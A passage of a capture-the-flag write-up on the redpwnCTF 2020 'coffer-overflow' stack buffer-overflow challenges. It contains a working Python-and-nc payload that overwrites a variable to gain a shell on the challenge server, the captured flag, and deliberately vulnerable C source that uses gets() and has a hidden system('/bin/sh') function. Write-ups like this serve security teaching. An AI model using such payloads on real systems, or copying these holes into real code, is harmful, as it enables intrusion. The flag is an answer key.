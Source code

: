 In this challenge, it is not simply enough that we trigger a buffer overflow. Instead, we have to overwrite `code` in such a precise manner so that it becomes the hexadecimal sequence `cafebabe`. 

Once again, this is only *slightly* more sophisticated and not by much. Our exploit will consist of 16 bytes of padding to fill up the 16 byte `name` buffer, plus an additional 8 to slide to the `code` buffer, and then finally the hexadecimal sequence `cafebabe`. However, due to bit order, we have to enter them in reverse order (i.e. `\xbe\xba\xfe\xca`).

```
[skat@iris:~] $ (python2 -c "print '\x41'*24 + '\xbe\xba\xfe\xca'"; cat) | nc 2020.redpwnc.tf 31255
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

Another successful flag captured.

```
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

## coffer-overflow-2

Files: `coffer-overflow-2`, `coffer-overflow-2.c`

This is slightly more difficult than the previous two levels, but once again not by much. The only difference between this level and the previous level is *what* we're overwriting. The previous level dealt with overwriting another buffer. This level deals with overwriting the return address, which is typically located only a few bytes away from the last buffer in a stack frame. This is typically 8 bytes away from the end of the last buffer due to stack alignment.

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);
}

void binFunction() {
  system("/bin/sh");
}
```
